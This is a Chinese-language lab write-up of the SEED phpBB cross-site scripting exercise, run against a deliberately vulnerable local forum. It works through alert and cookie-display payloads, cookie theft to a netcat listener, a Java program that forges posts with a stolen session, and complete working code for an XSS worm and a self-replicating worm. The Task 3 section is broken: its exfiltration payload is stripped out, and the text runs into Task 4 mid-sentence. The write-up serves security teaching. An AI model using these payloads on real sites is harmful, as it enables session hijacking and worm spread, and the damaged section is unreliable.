# Cross-Site Scripting (XSS) Attack Lab phpBB

## 简介

> 跨站点脚本编写(XSS)是web应用程序中常见的一种漏洞类型。这个漏洞使得攻击者有可能注入恶意代码。进入受害者的网络浏览器。使用这个恶意代码，攻击者可以窃取受害者的凭证，比如Cookie。浏览器用于保护这些凭据的访问控制策略（即，相同的起源策略）可以通过利用XSS漏洞来绕过。这类漏洞可能会导致大规模的攻击。 
>
> 为了演示攻击者利用XSS漏洞可以做些什么，我们使用phpBB建立了一个基于web的留言板。我们修改了该软件，在此留言板中引入了一个XSS漏洞；该漏洞允许用户向留言板发布任何任意消息，包括JavaScript程序。学生需要利用这个漏洞，在留言板上发布一些恶意消息；查看这些恶意消息的用将成为受害者。袭击者的目标是为受害者发布伪造的信息。

> 跨站脚本攻击是一种代码注入攻击，这种攻击通常涉及三个实体:**攻击者**、被攻击用户和**目标网站**。一般情况下，用户在目标网站的网页及用户与目标网站的交互都会被保护起来，保护方法有登录凭证、会话cookie等。攻击者要直接对这些页面或交互进行攻击比较闲难。
>
> 在XSS中，攻击者通过目标网站将其恶意代码注入受害者的浏览器。代码基本上可以做用户可以在会话内部做任何事情。
>
> 一种攻击它们的方法是向目标用户的浏览器中注入代码。把一段代码注入目标浏览器并不难。当代码来自一个被信任网站时，它可以访问和更改页面上的内容，读取属于网站的cookie并代表用户发送请求。然而，由于浏览器实施的沙盒保护机制，攻击者的代码波及不到目标网站的页面，也不能影响用户与目标网站的互动。要想实施攻去，代码必须来自目标网站。一般而言，攻击者必须找到将自己的恶意代码经由目标网站注入目标用户浏览器的方法。这类攻击称为跨站脚本攻击。如下图所示



> 如果具有反射行为的网站需要用户输入，那么攻击者可以将JavaScript代码放在输入中，因此当输入反映后，JavaScript代码将从网站注入网页。
>
> 许多网站都有反射行为，也就是它们从用户那里接收输入，执行一些操作，然后向用户发送响应网页，用户的输入也被包含在响应中(即用户的输入被返回)。例如， 当用谷歌搜索一些不存在的词(如xyz)时，谷歌返回的结果页面通常包含诸如“找不到与xyZ相符的结果”的内容。可以看到，输入的xyZ被反射回来了。
>
> 如果有这种反射行为的网站没有对用户输入进行适当的处理，那么它就可能存在XSS漏洞。攻击者可以在输入中混入JavaScript代码，当输入被反射回浏览器时，JavaScript代码将被注入该网站的网页中。这正是成功的XSS攻击所必备的要素。值得注意的是，承载代码的输入必须从目标用户的计算机发出，随后藏有注入代码的网页就可以被发送给目标用户的浏览器，注入代码就能以该用户的权限来运行。



> 攻击者直接将其数据发送到目标网站/服务器，将数据存储在持久存储中。如果网站稍后将存储的数据发送到其他用户，则它会在用户和攻击者之间创建一个频道。
>
> 在存储型XSsS攻击中，攻击者可以直接把数据发送给目标网站，网站会对数据迁行持入性存储。之后，如果网站将存储的数据发送给其他用户，那么它就在攻击者和其他用户之间创建了一条通道。这种通道在网络应用程序中十分普遍。
>
> 例如， 社交网站的用户主页就是这样一种通道，因为用户主页中的数据由用户自己设置，能够被很多其他用户查看。另一个例子是用户评论，它由一个用户提供，但同样能被其他人查看。
>
> 这些通道应当是数据通道，即只有数据才能通过这些通道发送。然而，用户提供的数据可以包含各种HTML标记，其中包括代码标记。这就使得用户可以在他们的输入中嵌入一段JavaScript代码。如果该输入没有被适当处理，其中的代码就会通过上述通道进入其他用户的浏览器中。该情况一旦发生，代码就会执行。对浏览器而言，这些代码就像同一页面的其他代码一样，浏览器并不知道这些代码是用户提供的还是网站提供的。因此，这些代码被赋予了与网页其他代码一样的权限。图10.2(b)展示了攻击者的恶意代码如何通过目标网
> 站进入被攻击用户的浏览器。


## 准备工作

本实验需要在seedubuntu9上进行

### 启动服务器

```bash
sudo apache2ctl start
or
sudo service apache2 start
```




我们查看var/www/XSS/XSSLabPhpbb下的文件。由于服务器的机制，我们可以直接加上 XSS/XSSLabPhpbb的路径访问此处。



直接输路径相当于直接访问，这是由于主机设置。这也正是IPv4的地址。使用其他虚拟机也可以访问。



### 文本传输

如果你无法安装VMtools，那么这也可以作为一种向外传递信息的方式。另一种向内传递信息的方式也是使用网络。比如可以吧所有的命令写在一篇文章中`https://www.cnblogs.com/skprimin/p/16011145.html`，通过网络访问。毕竟只要能联网，就有了能与外界交换信息的通道。

向外传输时，因为在本地启动了服务器，所以可以在电脑的另一个操作系统，甚至是物理机上，访问seed9的IP地址。可以将文件放在`var/www/XSS`文件夹下。这是可行的。


### 访问网站

也可以使用网址访问 www.xsslabphpbb.com

这是因为我们已经配置了DNS，这个URL只能从虚拟机内部访问，因为我们已经修改了/etc/hosts文件来映射域名www.xsslabphpbb.com到虚拟机的本地IP地址（127.0.0.1）。也可以修改/etc/hosts，将任何域名映射到一个特定的IP地址。

账户密码均为admin、alice、bob 。

| 账户  | 密码  |
| ----- | ----- |
| admin | admin |
| alice | alice |
| bob   | bob   |



## Task1 发布恶意消息以显示警报窗口

> 此任务的目标是发布一条包含JavaScript的恶意消息，以显示一个警报窗口。JavaScript应该与消息中的用户注释一起提供。以下JavaScript将显示一个警报窗口： 
>
> ```html
> <script>alert('XSS');</script> 
> ```
>
> 如果您将此JavaScript与您的评论一起发布在留言板中，那么任何查看此评论的用户都将看到警报窗口。

可见我们已经登录成功。点击进入Test Forum1



随后创建一个新的topic



输入内容

```html
<script>alert('XSS SKPrimin');</script>
```



再`submit`提交之后，稍等几秒便会出现此警告窗。



当再次进入此页面时也会出现弹窗，我们F12使用Firebug查看页面代码，通过搜索功能发现输入的字符串是直接嵌套在页面中的，没有进过任何过滤，甚至连简单的加上引号""都没有。这也因此使得该字符串能被当成JavaScript代码执行。



## Task2 发布恶意消息来显示cookie

> 此任务的目的是在包含JavaScript代码的消息板上发布恶意消息，这样，当用户查看此消息时，用户的Cookie将被打印出来。例如，考虑以下包含JavaScript代码的消息：
>
> 当用户查看此消息发布时，他/她将看到一个显示该用户Cookie的弹出消息框。

我们对Task1的内容重新编辑，在这里我们也可以发现其内容是空的，这也是由于输入的字符串被当成代码而没有显示。



修改post内容，或者添加一个post也可。

```html
<script>alert(document.cookie);</script>
Hello Everybody,
Welcome to this message board.
```



同样是稍等几秒便会输出此弹窗



当我们使用Firebug的net调试，重新加载页面，对某一个请求的header进行分析，便可以发现其内容正是Cookie。



## Task3 从受害者的机器里偷Cookie

> 在上次任务中，恶意的JavaScript代码可以打印出用户的Cookie；在此任务中，攻击者希望JavaScript代码将Cookie发送给自己。
>
> 为了实现这一点，恶意的JavaScript代码可以向攻击者发送一个HTTP请求，并将Cookie附加到请求中。我们可以通过让恶意的JavaScript插入一个``标签，并将src设置为攻击者目的地的URL来做到这一点。当JavaScript插入img标签时，浏览器会试图从所提到的URL加载图像，并在此过程中最终向攻击者的网站发送一个HTTPGET请求。
>
> 下面给出的JavaScript将Cookie发送到攻击者计算机上提到的端口5555。在特定端口上，攻击者有一个TCP服务器，它简单地打印出接收到的请求。TCP服务器程序将被提供给您（可在本实验室的网站上获得）。

这里我们选择另一台主机，当然使用同一台主机也是可以的，理论上只要能相互联网便可，使用ping命名可以测试相互之间是否能通信。但实际上这是一门玄学，推荐使用seedubuntu12负责监听。

### 获取地址

```bash
ifconfig
```



攻击机seed12的id地址



### 新建post

我们新建一个Topic，输入对应命令，并提交

```html
Hello Folks,
<script>document.write(''); </script>
This script is to test XSS. Thanks.
```



### 监听

在攻击机上创建监听端口。

```bash
nc -lv 5555
```

随后在seed9上刷新Task3的页面，如果服务器将其当成代码解析，那么会出现一个图片标识，这时因为我们插入的是` 在窃取了受害者的Cookie后，攻击者可以对受害者的phpBBweb服务器做任何事情，包括以受害者的名字发布新消息，删除受害者的帖子，等等。在这个任务中，我们将编写一个程序来代表受害者发布一个信息帖子。
>
> 为了建立一个消息发布，我们应该首先分析phpBB在发布消息方面是如何工作的。更具体地说，我 们的目标是找出当用户发布消息时发送到服务器的内容。Firefox的LiveHTTPHeaders扩展可以帮助我 们；它可以显示从浏览器发送的任何HTTP请求消息的内容。

我们打开`Live HTTP headers`，此处为了减少监听到其他页面的无用信息，我们在`Test Forum`页面再打卡监听。



打开监视后，创建一个新的Topic，内容使用容易辨识的标记。



随后查看Live HTTP headers，根据标识查找，锁定是第二个，其Content中也包含了这次的post内容。



### java模拟请求

> 一旦我们理解了消息发布的HTTP请求是什么样子的，我们就可以编写一个Java程序来发送相同的HTTP请求。phpBB服务器无法区分该请求是由用户的浏览器发送的，还是由攻击者的Java程序发送的。 
>
> 只要我们正确地设置了所有参数，服务器就会接受并处理消息发布的HTTP请求。为了简化您的任务，我们为您提供了一个示例java程序： https://www.cnblogs.com/skprimin/p/16011145.html

```java
import java.io.*;
import java.net.*;


public class HTTPSimpleForge {
    public static void main(String[] args) throws IOException {
        try {
            int responseCode;
            InputStream responseIn = null;

            // 要伪造的URL
            URL url = new URL("http://www.xsslabphpbb.com/posting.php");

            // 创建URLConnection实例，以进一步参数化资源请求，以后的URL实例可以表示的状态。
            URLConnection urlConn = url.openConnection();

            if (urlConn instanceof HttpURLConnection) {
                urlConn.setConnectTimeout(60000);
                urlConn.setReadTimeout(90000);
            }

            // AddRequestProperty方法用于添加HTTP标头信息。
            // 在这里，我们将用户代理HTTP标头添加到伪造的HTTP数据包中。
            urlConn.addRequestProperty("Cookie", "");

            // HTTP发布数据包括要发送到服务器的信息。
            String data = "username=admin&seed=admin%40seed.com";
            // 应该将URL连接的DOUTPUT标志设置为TRUE以发送HTTP发布消息。
            urlConn.setDoOutput(true);

            // OutputStreamWriter 字节输出流 用于将HTTP POST数据写入URL连接。
            OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
            wr.write(data);
            wr.flush();

            // HttpURLConnection a subclass of URLConnection is returned by
            // url.openConnection() since the url is an http request.
            //因为URL是HTTP请求， HttpURLConnection 由 
            // URL.Openconnection（）返回URLConnection的子类，
            if (urlConn instanceof HttpURLConnection) {
                HttpURLConnection httpConn = (HttpURLConnection) urlConn;
                // 连接Web服务器并获取HTTP响应消息的状态代码。
                responseCode = httpConn.getResponseCode();
                System.out.println("Response Code = " + responseCode);

                // HTTP状态代码HTTP_OK表示已成功收到响应。
                if (responseCode == HttpURLConnection.HTTP_OK) {
                    // 从URL连接对象获取输入流。
                    responseIn = urlConn.getInputStream();

                    // 为字节读入流BufferedReader创建一个实例，以按行读取响应行。
                    BufferedReader buf_inp = new BufferedReader(new InputStreamReader(
                                responseIn));
                    String inputLine;

                    while ((inputLine = buf_inp.readLine()) != null) {
                        //System.out.println(inputLine);
                    }
                }
            }
        } catch (MalformedURLException e) {
            e.printStackTrace();
        }
    }
}
```

根据Live HTTP headers所捕获的内容，进行修改主要是修改data、Cookie。其data内容事实上就是参数，在一些老网站上，使用POST传参数时，其网址后面`?..&..`正是参数，？表示起始，&就是参数之间的分隔符。

例如我们修改`subject=`和`message=`两个参数的内容，修改为`TASK4java04444`和`SKPriminAAAAAAAA...`

```bash
 String data = "subject=TASK4java04444&addbbcode18=%23444444&addbbcode20=0&helpbox=Code+display%3A+%5Bcode%5Dcode%5B%2Fcode%5D++%28alt%2Bc%29&message=SKPriminAAAAAAAAAAAAAAAA0000000000000000000000000&poll_title=&add_poll_option_text=&poll_length=&mode=newtopic&sid=c50f6a27861e00e5947e7376676e6b80&f=1&post=Submit";
```

将上述代码复制保存，java文件的特性，文件名必须要与类名（`public class`后面跟着的那个）相同，即命名为`HTTPSimpleForge.java`。随后我们更改部分内容将参数。

- 上层创建的`URL url = new URL("http://www.xsslabphpbb.com/posting.php");`对象。

- ` urlConn.addRequestProperty("Cookie", "")`只需要一个Cookie。Cookie即代表所有，我们平时网站的免登录实际上也是由浏览器帮我们保存了Cookie并自动登录实现的。个别网站可能要**user-agent**(浏览器标识)、**referer**（防盗链）

- ` String data = "";`发送的信息

将**HTTPSimpleForge.java**文件中对应的部分修改。URL大约再12行，addRequestProperty大约再24行，data紧跟其后。



随后先编译再执行。响应码200表示正常。

```bash
javac HTTPSimpleForge.java
java HTTPSimpleForge
```



回到Test Forum1页面，发现新增了一个post。



内容也确实为我们所更改的



##  Task 5: Writing an XSS Worm

> 在之前的任务中，我们已经学会了如何从受害者那里偷取饼干，然后使用偷来的饼干来伪造HTTP请求。在这个任务中，我们需要编写一个恶意的JavaScript来直接从受害者的浏览器中伪造一个HTTP请求。此攻击不需要攻击者的干预。可以实现这一点的JavaScript被称为跨站点脚本蠕虫程序。对于这个web应用程序，蠕虫程序应该执行以下操作： 
>
> > 1. 使用JavaScript检索用户的会话ID。 
> >
> > 2. 伪造一个HTTP发布请求，以使用会话ID发布消息。 
>
> HTTP最常见的请求有两种类型，一种是`HTTPGET`请求，另一种是`HTTPPOST`请求。这两种类型的HTTP请求在向服务器发送请求内容的方式上有所不同。在phpBB中，发布消息的请求使用HTTPPOST请求。我们可以使用XMLHttpRequtd对象为web应用程序发送HTTPGET和POST请求。XMLHttpResqest只能将HTTP请求发送回服务器，而不是其他计算机，因为XMLHttpResket强制执行同源策略。这对我们来说不是一个问题，因为我们确实想使用XMLHttp请求将一个伪造的HTTPPOST请求发送回PhpBB服务器。

```html
<script>
  var Ajax = null;
  // 构造HTTP请求的标题信息
  Ajax = new XMLHttpRequest();
  Ajax.open("POST", "http://www.xsslabphpbb.com/posting.php", true);
  Ajax.setRequestHeader("Host", "www.xsslabphpbb.com");
  Ajax.setRequestHeader("Keep-Alive", "300");
  Ajax.setRequestHeader("Connection", "keep-alive");
  Ajax.setRequestHeader("Cookie", document.cookie);
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  // 构建内容。 可以从LiveHttPheader学习内容的格式。 我们需要填写的只是subject, message, 和 sid
  var content = "subject=" + "XSSWorm" + ...; //这些参数事实上一个都不能少，都要有
  // 发送 HTTP POST 请求
  Ajax.send(content);
</script>
```

### 编写脚本

> 为了使我们的蠕虫能够工作，我们应该注意phpBB如何使用会话id信息。从LiveHTTPHeaders扩展的输出中，我们可以注意到sid在消息发布请求中出现了两次。一个是在饼干部分(它被称为phpbb2mysql sid).因此，XMLHttpRequet发送的HTTPPOST请求也必须包括Cookie。 
>
> 如果我们仔细查看LiveHTTPHeaders的输出，我们可以看到相同的会话id也出现在以“主题=”开头的行中。phpBB服务器在这里使用会话id来防止其他类型的攻击(即。跨站点请求伪造攻击)。在我们伪造的消息发布请求中，我们还需要添加这个会话id信息；这个会话id的值与phpbb2mysql中的值完全相同 sid。如果请求中没有此会话id，服务器将丢弃该请求。 
>
> 为了从Cookie中检索sid信息，您可能需要在JavaScript中学习一些字符串操作。

使用如下的代码即可获取32长度的sid。

```
var c = document.cookie;
var i = c.indexOf("sid=")
c.slice(i + 4, i + 4 + 32);
```



编写脚本如下，

```html
<script>
  var Ajax = null;
  Ajax = new XMLHttpRequest();
  Ajax.open("POST", "http://www.xsslabphpbb.com/posting.php", true);
  Ajax.setRequestHeader("Host", "www.xsslabphpbb.com");
  Ajax.setRequestHeader("Keep-Alive", "300");
  Ajax.setRequestHeader("Connection", "keep-alive");
  Ajax.setRequestHeader("Cookie", document.cookie);
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  var c = document.cookie;
  var i = c.indexOf("sid=");
  var content = "subject=" + "XSSWormSKPrimin" + "&addbbcode18=%23444444&addbbcode20=0&helpbox=Font+color%3A+%5Bcolor%3Dred%5Dtext%5B%2Fcolor%5D++Tip%3A+you+can+also+use+color%3D%23FF0000"+ "&message="+"This is a worm created by SKPrimin" +"&poll_title=&add_poll_option_text=&poll_length=&mode=newtopic&sid=" + c.slice(i + 4, i + 4 + 32) +"&f=1&post=Submit";
  Ajax.send(content);
</script>
```

### 发帖

由Alice登录并发帖



切换登录，由bob查看，点击后再退出便发现Bob在不知情的情况下发了一个帖



## Task6 自我复制的Worm

> 在上一个任务中构建的蠕虫只代表受害者伪造信息；它不会自我传播。因此，从技术上讲，它不是一种蠕虫。为了能够自我传播，伪造的信息还应该包括一个蠕虫，所以每当有人点击伪造的信息时，就会创建一个新的携带相同蠕虫的伪造信息。这样，蠕虫就可以被传播了。点击伪造信息的人越多，蠕虫传播的速度就越快。 
>
> JavaScript代码可以通过DOM api直接从DOM获得自己的副本。
>
> > 文档对象模型(DOM)方法:
> >
> > - DOM将页面的内容组织成对象树(DOM节点)。
> >
> > - 使用DOM api，我们可以访问树中的每个节点。
> >
> > - 如果页面包含JavaScript代码，它将被存储为树中的对象。
> >
> > - 因此，如果我们知道包含代码的DOM节点，就可以使用DOM api从该节点获取代码。
> >
> > - 每个JavaScript节点都可以指定一个名称，然后使用document.getElementByID() API来查找该节点。
>
> 在此任务中，您需要展开在任务5中执行的内容，并将蠕虫的副本添加到伪造消息的主体中。以下指南将帮助您完成此任务：



> 1. 发布伪造信息的JavaScript程序已经是该网页的一部分了。因此，蠕虫代码可以使用DOMapi从网页中检索自己的副本。下面给出了一个使用DOMapi的例子。此代码获取其自身的一个副本，并将其显示在一个警报窗口中：
>
>    ```html
>    <script id=worm>
>    var strCode = document.getElementById("worm");
>    alert(strCode.innerHTML);
>    </script>
>    ```

> 2. URL编码：所有通过HTTP传输的消息都使用URL编码，即根据URL编码方案将空格等所有非ascii字符转换为特殊代码。在蠕虫代码中，要在phpBB论坛中发布的消息应该使用URL编码进行编码。 
>
> 转义函数可用于对字符串进行URL编码。下面给出了一个使用编码函数的例子。
>
> ```html
> <script>
> var strSample = "Hello World";
> var urlEncSample = escape(strSample);
> alert(urlEncSample);
> </script>
> ```

> 3.在URL编码方案下，使用“+”符号来表示空间。在JavaScript程序中，“+”同时用于算术操作和字符串连接操作。为了避免这种歧义，您可以使用`concat`函数进行字符串连接，并避免使用加法。对于练习中的蠕虫代码，您不必使用附加内容。如果必须添加一个数字（例如+5），则可以使用减法（例如`a-(-5)`）。

根据其提示我们写出对应代码。代码中所有的+都会被转义。

```html
<script id=worm>
  //构造一个蠕虫代码的副本，包括脚本标记。
  scriptValue = document.getElementById("worm");
  scriptValue = scriptValue.childNodes[0].nodeValue;
  var sc1 = "<script id=worm>";
  var sc12 = sc1.concat(scriptValue);
  scriptValue = sc12.concat("<\/script>");
  scriptValue = escape(scriptValue);
  var Ajax = null;
  Ajax = new XMLHttpRequest();
  Ajax.open("POST", "http://www.xsslabphpbb.com/posting.php", true);
  Ajax.setRequestHeader("Host", "www.xsslabphpbb.com");
  Ajax.setRequestHeader("Keep-Alive", "300");
  Ajax.setRequestHeader("Connection", "keep-alive");
  Ajax.setRequestHeader("Cookie", document.cookie);
  
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  var c = document.cookie;
  var i = c.indexOf("sid=");
  var s1 = "subject=XSSSelfWorm&addbbcode18=%23444444&addbbcode20=0&helpbox=Font+color%3A+%5Bcolor%3Dred%5Dtext%5B%2Fcolor%5D++Tip%3A+you+can+also+use+color%3D%23FF0000&message=";
  var s3 = "&poll_title=&add_poll_option_text=&poll_length=&mode=newtopic&sid=";
  var s5 = "&f=1&post=Submit";
  var s12 = s1.concat(scriptValue); // 其最为关键的自我复制，即输出的内容是它自己
  var s34 = s3.concat(c.slice(i - (-4), i - (-36)));
  var s1234 = s12.concat(s34);
  var content = s1234.concat("&f=1&post=Submit");
  Ajax.send(content);
</script>
```

### 发自我复制帖

添加对应代码，并删除所有空行，换行。直至浓缩为一行。

```html
<script id=worm>scriptValue1=document.getElementById("worm");scriptValue2=scriptValue1.childNodes[0].nodeValue;var sc1="<script id=worm>";var sc12=sc1.concat(scriptValue2);scriptValue3=sc12.concat("<\/script>");scriptValue=escape(scriptValue3);var Ajax=null;Ajax=new XMLHttpRequest();Ajax.open("POST", "http://www.xsslabphpbb.com/posting.php",true);Ajax.setRequestHeader("Host","www.xsslabphpbb.com");Ajax.setRequestHeader("Keep-Alive", "300");Ajax.setRequestHeader("Connection", "keep-alive");Ajax.setRequestHeader("Cookie", document.cookie);Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");var c=document.cookie;var i=c.indexOf("sid=");var s1="subject=XSSSelfWorm&addbbcode18=%23444444&addbbcode20=0&helpbox=Font+color%3A+%5Bcolor%3Dred%5Dtext%5B%2Fcolor%5D++Tip%3A+you+can+also+use+color%3D%23FF0000&message=";var s3="&poll_title=&add_poll_option_text=&poll_length=&mode=newtopic&sid=";var s5="&f=1&post=Submit";var s12=s1.concat(scriptValue);var s34=s3.concat(c.slice(i - (-4), i - (-36)));var s1234=s12.concat(s34);var content=s1234.concat("&f=1&post=Submit");Ajax.send(content);</script>
```




切换到Bob

第一次点击`Task6CCCP`便会复制一个蠕虫


接下来点击复制出来的`XSSSelfWorm`便会在复制出来一个新的文件，依次类推。

如果点击没反应，可能是没来得及加载数据，点进去后不要着急退出来，点一点其它的东西。



### 源代码查看

通过源代码查看，我们也能初见端倪。

其原版的JavaScript代码



复制出的蠕虫的JavaScript代码



### 脚本渊源

既然要自我复制，就像现实中生活的病毒，每个复制出的病原体都会带上自己的`RNA/DNA`，Worm复制时也要带上自己的遗传信息，正是通过此句` scriptValue = document.getElementById("worm");`获得了自己的遗传信息，再通过一些加工，跨过网页编码的一些特性。

本次使用的脚本耗时良久，由于虚拟机内差劲的配置，采取的方式是先在物理机上进行测试，测试方式就是将那一段代码先放进一个HTML文件中，再使用浏览器开始调试。

中途历经多次调试。大家在自己测试时也可以先在顺手的浏览器上测试一下，可以避免一些失误。



#### 小插曲

此段是也是一个重要的地方，我们要给其写入的内容加上`<script id=worm>`，

```html
var sc1 = "<script id=worm>";
  var sc12 = sc1.concat(scriptValue);
  scriptValue = sc12.concat("<\/script>");
  scriptValue = escape(scriptValue);
```

这也是通过对复制出的页面源代码进行分析发现的，与之一同发现的还有不断增加的`<br/>`换行符。这也是其复制时又额外加上的。



而原版的源代码没有那么多换行符。也正因此，在后续的修改中直接删除了所有的换行。



`sc12.concat("<\/script>")`  我们将字符串的 / 进行转义，如果我们直接放置整个字符串，Firefox的HTML解析器会将该字符串视为脚本块的结束标记，其余的代码将被忽略。或者我们也可以使用`"</" + "script>"`

`escape(scriptValue);`在HTTP POST请求中，数据以`“application/x-www-form-urlencoded”`的内容类型发送。我们使用escape()函数对字符串进行编码。这也是不能使用+的原因，否则复制出的代码原本的+会被空格取代、。

